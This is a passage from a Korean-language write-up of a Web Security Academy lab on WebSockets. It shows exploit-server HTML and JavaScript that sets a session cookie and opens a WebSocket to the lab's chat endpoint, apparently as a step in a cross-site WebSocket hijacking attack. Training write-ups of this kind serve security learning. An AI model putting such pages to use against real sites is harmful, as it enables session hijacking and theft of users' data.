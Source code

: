 ![exploit서버2](/images/burp-academy-websocket-3-4.png)

위의 explot서버의 코드에 다음을 추가했다. 

```js
document.cookie = "session=XU4hAkGgqpWBSfI6ZrufvsDVu1ll5bUb";
```

전체적인 코드는 다음과 같다. 

```html 
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
  </head>
  <body>
    <p>WebSocket</p>
    event type: <input id="eventType"> <br/>
    message: <input id="dispMsg">
  </body>
</html>

<script type="text/javascript">
    document.cookie = "session=XU4hAkGgqpWBSfI6ZrufvsDVu1ll5bUb";

    //WebSocket connect
    var connection = new WebSocket("wss://www.0aee00af039791158082d02c00c100cf.web-security-academy.net/chat");
    

    // connection open
    connection.onopen = function(event) {
        document.getElementById( "eventType" ).value = "connection open!";
        document.getElementById( "dispMsg" ).value = event.data;
    };

    // error
    connection.onerror = function(error) {
        document.getElementById( "eventType" ).value = "error!";
        document.getElementById( "dispMsg" ).value = error.data;
    };

    // message 
    connection.onmessage = function(event) {
        document.getElementById( "eventType" ).value = "message!";
        document.getElementById( "dispMsg" ).value = event.data;
    };
```